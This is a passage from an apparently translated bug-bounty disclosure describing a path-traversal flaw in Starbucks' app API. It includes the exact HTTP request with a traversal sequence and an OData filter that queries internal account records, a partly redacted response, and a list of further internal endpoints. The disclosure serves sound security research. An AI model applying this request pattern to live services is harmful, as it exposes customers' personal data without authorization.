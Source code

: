 此外，為了確定一個特定的用戶 account，攻擊者可以使用 `$filter` 參數：

```
GET /bff/proxy/stream/v1/users/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\Search\v1\Accounts?$filter=startswith(UserName,'redacted') HTTP/1.1
Host: app.starbucks.com
```

```json
{
  "@odata.context": "https://redacted.starbucks.com/Search/v1/$metadata#Accounts",
  "value": [
    {
      "Id": 81763022,
      "ExternalId": "59d159e2-redacted-redacted-b037-e8cececdf354",
      "UserName": "redacted@gmail.com",
      "FirstName": "Justin",
      "LastName": "Gardner",
      "EmailAddress": "redacted@gmail.com",
      "Submarket": "US",
      "PartnerNumber": null,
      "RegistrationDate": "2018-05-19T18:52:15.0763564Z",
      "RegistrationSource": "Android",
      "LastUpdated": "2020-05-16T23:28:39.3426069Z"
    }
  ]
}

```

由於一切的敏感性質
- 我們報告了這個問題。還有一些可能被訪問的 API

我們沒有時間去探索。我們發現的其他一些 endpoints 是
```
barcode, loyalty, appsettings, card, challenge, content, identifier, identity, onboarding, orderhistory, permissions, product, promotion, account, billingaddress, enrollment, location, music, offers, rewards, keyserver
```


這些其他的內部 endpoints 很可能（儘管沒有得到證實）允許我們訪問和修改賬單地址、禮品卡、獎勵和優惠等內容
- 我們目前的 pow 我們可以訪問近 1 億星巴克顧客的姓名、電子郵件、電話號碼和地址
- 星巴克團隊非常迅速地解決了這個問題，並在一天內修復了它

## Summary
- `app.starbucks.com` 上的 `/bff/proxy/` 下的 endpoints 在內部路由 retrieve and store data
- 有可能穿越這些 API call，找到不應該在內部主機上訪問的 URL
- 內部 API 有一個暴露的 Microsoft Graph instance，這將允許攻擊者滲出近 1 億條用戶記錄，包括姓名、電子郵件、電話號碼和地址

## Timeline
- Reported May 16th
- Patched May 17th
- Bounty awarded May 19th ($4,000)
- Disclosed June 16th